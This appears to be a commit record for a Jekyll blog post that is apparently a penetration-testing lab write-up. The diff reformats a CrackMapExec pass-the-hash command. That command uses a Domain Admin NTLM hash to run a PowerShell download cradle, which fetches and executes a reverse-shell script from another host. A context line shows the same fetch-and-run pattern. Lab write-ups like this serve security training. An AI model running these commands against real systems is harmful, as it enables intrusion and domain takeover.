

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 900 px high, scrolled down 18200 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 18997 px from its top, so only the background shows below that.

Commit message:
updated site

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -361,9 +361,11 @@ Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).D
 We get NTLM hashes for BRoss, who is a Domain Admin. With this info we are able to use the Ross account to add us to net users and Domain Admins
 We use cme to expoit the hashes and get a shell. We use the same methodology:
 
-`cme smb 10.8.14.10 -u BRoss -H '49a074a39dd0651f647e765c2cc794c7' -X 'IEX (New-Object Net.WebClient).DownloadString("http://10.7.253.6/Invoke-PowerShellTcpOneLine.ps1")'`
+![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-login.png)
 
-![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-screenshot.png)
+```bash
+cme smb 10.8.14.10 -u BRoss -H '49a074a39dd0651f647e765c2cc794c7' -X 'IEX (New-Object Net.WebClient).DownloadString("http://10.7.253.6/Invoke-PowerShellTcpOneLine.ps1")'
+```
 
 
 Lastly, As BRoss I add myself to all the good places:
````
Also changed, not shown: images/lky-cme-login.png (added).
